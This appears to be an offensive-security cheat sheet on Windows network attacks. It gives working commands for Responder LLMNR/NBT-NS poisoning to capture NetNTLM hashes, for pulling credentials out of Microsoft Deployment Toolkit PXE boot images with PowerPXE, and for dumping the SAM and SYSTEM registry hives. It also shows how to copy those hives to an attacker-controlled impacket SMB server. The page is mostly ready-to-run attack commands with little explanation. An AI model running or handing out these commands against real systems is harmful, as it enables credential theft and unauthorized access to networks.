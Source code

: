 ### NetNTLM Authentication Exploits with SMB
Responder allows you to perform Man-in-the-Middle attacks by poisoning responses during NetNTLM authentication, making the client talk to you instead of the real server it wants to connect to.

#### LLMNR Poisoning - Capturing hash in responder
On a real lan network, the responder will attempt to poison all Link-Local Multicast Name Resolution (LLMNR), NetBIOS Name Server (NBT-NS), and Web Proxy Auto-Dscovery (WPAD) requests detected. NBT-NS is the precursor protocol to LLMNR.  

```
responder -I eth0 -v
```

---

### Exploring Microsoft Deployment Toolkit - MDT
* Identify MDT  
* Extract  PXE Boot Image  
```
tftp -i <IP> GET "\Tmp\x86x64{...}.bcd" conf.bcd
```

* Retrieve the locations of PXE boot images from BCD file
```
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
tftp -i <IP> GET "<PXE Boot Image Location>" pxeboot.wim
```

* Retrieve credentials from a PXE Boot Image  
```
Get-FindCredentials -WimFile pxeboot.wim
```
https://github.com/wavestone-cdt/powerpxe  

### Extracting hashes
#### Intro
* SAM - Security Account Manager (Store as user accounts)  %SystemRoot%/system32/config/sam  
* NTDS.DIT (Windows Server / Active Directory - Store AD data including user accounts) %SystemRoot%/ntds/ntds.dit  
* SYSTEM (System file to decrypt SAM/NTDS.DIT)  %SystemRoot%/system32/config/system  
* Backup - Sistemas antigos como XP/2003: C:\Windows\repair\sam and C:\Windows\repair\system

#### Get sam and system by registry (From old versions to recent versions)
```
reg save hklm\sam sam
reg save hklm\system system
```

* transfer sam and syste via sharing files via SMB
* Configuring smb server 1    
```
impacket-smbserver share . -smb2support -user user -password teste321
```
* Configuring smb server 2  
```
net use \\<smbserver>\share /USER:user teste321
copy C:\Users\Backup\sam.hive \\<smbserver>\share\
copy C:\Users\Backup\system.hive \\<smbserver>\share\
```
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbserver.py
